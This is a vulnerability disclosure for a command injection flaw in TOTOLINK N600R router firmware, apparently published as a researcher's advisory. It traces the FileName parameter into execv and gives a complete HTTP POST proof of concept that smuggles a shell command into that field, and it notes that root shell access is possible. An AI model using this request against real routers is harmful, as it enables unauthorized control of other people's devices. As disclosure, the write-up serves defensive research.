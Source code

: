 # TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version

![image-20220406182121036](img/image-20220406182121036.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220406183640223](img/image-20220406183640223.png)

The program passes the contents obtained by the filename parameter to V8, then copies V8 into the stack of V15 through the strcpy function, and then brings V15 into update_ In FW function

![image-20220406183703208](img/image-20220406183703208.png)

At this time, the corresponding parameter is A2

![image-20220406183722962](img/image-20220406183722962.png)

Function A2 formats the matched content into the stack of V11 through the sprintf function, and then brings V11 into the cstesystem function

![image-20220406182546918](img/image-20220406182546918.png)

At this time, corresponding to the parameter A1, the function assigns A1 to the array of V9, and finally executes the command through the execv function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 86
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.asp?timestamp=1647874864
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647874864:2
Connection: close

{
	"topicurl":"setting/CloudACMunualUpdate",
	"FileName":"test$(ls > /tmp/9.txt)"
}
```

The reproduction results are as follows:

![image-20220406183756308](img/image-20220406183756308.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

